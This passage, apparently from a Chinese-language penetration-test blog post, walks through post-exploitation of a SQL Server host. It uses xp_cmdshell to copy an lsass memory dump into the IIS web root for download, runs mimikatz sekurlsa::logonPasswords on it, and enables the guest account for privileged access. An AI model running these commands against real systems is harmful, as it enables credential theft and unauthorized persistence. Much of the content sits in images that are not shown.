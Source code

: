 ![](https://mmbiz.qpic.cn/mmbiz_png/0O7ep2c6dwM9R2o7vQEEWjmym0wRW16muGadf0MVMxoF1gyulwR4wMRThQrjObwp3LwagNEQW38Eb1qjicIvQKw/640?wx_fmt=png)

然后就该读文件了，扫描端口时发现了 iis7 默认页面

![](https://mmbiz.qpic.cn/mmbiz_png/0O7ep2c6dwM9R2o7vQEEWjmym0wRW16mbSVDMIQeCCKLicQR2UBJ1sjvkjwT697ZIPRNzwwMflDNbULbiblJUYtA/640?wx_fmt=png)

由于已经 dump 了`lsass`的内存，那么思路转变为利用 IIS7 服务下载`SQLDmpr0001.mdmp`，本地`mimikatz`解密

```
DECLARE @old sysname,@new sysname,@cmd sysname
SET @old = '"C:\Users\Administrator\AppData\Local\Temp\SQLDmpr0001.mdmp"'
SET @new = '"C:\inetpub\wwwroot\SQLDmpr0001.mdmp"'
SET @cmd = 'copy '+@old+' '+@new
EXEC master..xp_cmdshell @cmd
```

![](https://mmbiz.qpic.cn/mmbiz_png/0O7ep2c6dwM9R2o7vQEEWjmym0wRW16mSAznTnCvgDJCbP7gJPGLLvdBIpSZMf8O3ibEr1SWDib5gcsx0uOycvGQ/640?wx_fmt=png)

访问看看

![](https://mmbiz.qpic.cn/mmbiz_png/0O7ep2c6dwM9R2o7vQEEWjmym0wRW16mFr7zADzLN00XhfUXt1Uw4siafhSWdE12O0UOSNZg51PY5M8tic55LQDw/640?wx_fmt=png)

诶？咋 404 了

换个文件名试试

```
DECLARE @old sysname,@new sysname,@cmd sysname
SET @old = '"C:\Users\Administrator\AppData\Local\Temp\SQLDmpr0001.mdmp"'
SET @new = '"C:\inetpub\wwwroot\test.txt"'
SET @cmd = 'copy '+@old+' '+@new
EXEC master..xp_cmdshell @cmd
```

![](https://mmbiz.qpic.cn/mmbiz_png/0O7ep2c6dwM9R2o7vQEEWjmym0wRW16m0Bbcsf2opWbgWHiaPQw6XCE04qyCcjM2ziaNpAWUMr5M0YqTKzj1ViaNA/640?wx_fmt=png)

再访问，下载成功

![](https://mmbiz.qpic.cn/mmbiz_png/0O7ep2c6dwM9R2o7vQEEWjmym0wRW16mXtL3b8AvwlXusf0atPWOjb7MhmXWU5MjeNKdMdWVWnIYvic6RXw6ajA/640?wx_fmt=png)

然后扔`mimikatz`一条命令梭哈`mimikatz.exe"sekurlsa::minidumpSQLDmpr0001.mdmp""sekurlsa::logonPasswords full""exit"`

然而事情没那么简单。。

![](https://mmbiz.qpic.cn/mmbiz_png/0O7ep2c6dwM9R2o7vQEEWjmym0wRW16mrCWibhFAGWZoGfZwGC66MwAWm8W9xCEtLCE2MPPLCoT0tcvdGmbTNqw/640?wx_fmt=png)

管理员自从上次登录（7 月）后就再也没登录过……

![](https://mmbiz.qpic.cn/mmbiz_png/0O7ep2c6dwM9R2o7vQEEWjmym0wRW16m7mQiaibDTyxofKorKkhY6573VWuKIgYaUy3qnUVmJibKrwOE2cWicWtbRA/640?wx_fmt=png)

一筹莫展时发现有个 guest 用户，尝试下另一个思路

``EXEC master..xp_cmdshell 'net user guest /active:yes'``![](https://mmbiz.qpic.cn/mmbiz_png/0O7ep2c6dwM9R2o7vQEEWjmym0wRW16mZPozWHhpMLcghMSQtQSpm1kfC96amliaCvzdCu4IjXkKGKJUge7p5Pg/640?wx_fmt=png)

加密码和管理组
